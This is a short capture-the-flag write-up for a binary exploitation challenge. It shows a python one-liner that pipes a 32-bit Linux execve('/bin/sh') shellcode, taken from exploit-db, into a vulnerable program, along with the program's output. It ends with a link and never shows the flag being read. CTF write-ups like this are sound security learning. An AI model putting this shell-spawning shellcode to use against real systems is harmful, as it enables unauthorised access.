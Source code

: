 # Handy Shellcode
Points: 50 - (Solves: 6714)

Binary Exploitation - Unsolved

This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af on the shell server. Source.

# Solution

Well, don't need think so much, let's find some shellcode online!

From https://www.exploit-db.com/exploits/42428:
```
$ python -c 'print(b"\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'|./vuln
Enter your shellcode:
1��Ph//shh/bin��PS��

Thanks! Executing now...
```

Well but we want to read the flag. Looking online, there's this website
https://github.com/VulnHub/ctf-writeups/blob/master/2015/ringzer0/shellcoding.md about shellcode.
